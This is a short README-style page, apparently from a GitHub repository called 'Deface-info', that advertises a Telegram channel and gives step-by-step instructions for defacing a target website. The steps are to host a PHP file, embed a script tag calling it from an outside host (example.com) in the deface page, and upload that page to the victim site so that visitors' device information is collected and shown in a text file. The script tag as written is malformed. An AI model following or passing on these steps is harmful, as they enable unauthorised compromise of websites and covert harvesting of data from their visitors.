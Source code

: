 # Deface-info
Rh077king
subscribe my Telegram Chanel
https://t.me/Rhking077

Topic:-Deface Visitors🙄 Device Information

°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°
1:- Upload file your hosting site

2:-Open Your Deface file A editor Apps
            (Example script)
            
3:- <script src="example.com/Rh077king.php"><script>

4:- save your deface file

5:- Upload Deface your Target site

Deface visitors device information see
               Example
https://www.example.com/Rh077king.txt

😬
